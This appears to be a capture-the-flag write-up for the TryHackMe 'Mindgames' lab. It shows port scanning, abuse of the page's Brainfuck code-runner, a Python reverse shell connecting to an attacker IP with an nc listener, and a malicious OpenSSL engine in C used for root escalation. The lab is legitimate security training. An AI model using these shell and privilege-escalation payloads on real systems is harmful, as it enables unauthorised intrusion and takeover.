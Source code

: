 # 34 - Mindgames

Room Link --> [https://tryhackme.com/room/mindgames](https://tryhackme.com/room/mindgames)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -p- -T5 -sS -vv 10.10.139.95

PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    open     http    syn-ack ttl 63
```
{% endcode %}

Navigating to the Webpage. `http://10.10.139.95` .

<figure><img src=".gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

Pasting the cipher text after Hello World in google returned results that included "BrainFuck" programming language, though my initial thought was that this is a Morsecode cipher. So i used an onlide [Brainfuck decoder](https://www.dcode.fr/brainfuck-language)

<figure><img src=".gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

The next cipher text:

<figure><img src=".gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

#### Fibonacci

{% code overflow="wrap" lineNumbers="true" %}
```python
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)


for i in range(10):
    print(F(i))
```
{% endcode %}

The webpage also runs the code automatically.

<figure><img src=".gitbook/assets/image (253).png" alt=""><figcaption></figcaption></figure>

Meaning we can convert our python code into Brainfuck language and run it in the dialog box.

So i wrote a python cmd to view the "id" of the user.

<figure><img src=".gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

Paste in the dialog box:

<figure><img src=".gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>

Reading the "/home/mindgames" dir.

<figure><img src=".gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

### Initial access:

I used this to get shell access to the box.

{% code overflow="wrap" lineNumbers="true" %}
```bash
o = __import__('os')
s = __import__('socket')
p = __import__('subprocess')

k=s.socket(s.AF_INET,s.SOCK_STREAM)
k.connect(("10.18.88.214",4242))
o.dup2(k.fileno(),0)
o.dup2(k.fileno(),1)
o.dup2(k.fileno(),2)
c=p.call(["/bin/sh","-i"]);

# convert to Brainfuk, setup a nc listener.
nc -nvlp 4242
```
{% endcode %}

<figure><img src=".gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

\[getcap] exploitation.

I ran linPEAS on the box, and found OpenSSL that had capabilities set that allows us to change UID

<figure><img src=".gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

So i created a simple OpenSSL engine that when compile it will execute bash as root.

{% code title="shell.c" overflow="wrap" lineNumbers="true" %}
```c
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}


IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
{% endcode %}

Compiling the code.

```bash
gcc -fPIC -c shell.c -o shell.o
gcc -shared -lcrypto shell.o -o shell.so

# transfer the shell.so file to the victim box.
```

Run the cmd below:

```bash
openssl engine -t `pwd`/shell.so

# and we get root.
```

<figure><img src=".gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

Done!
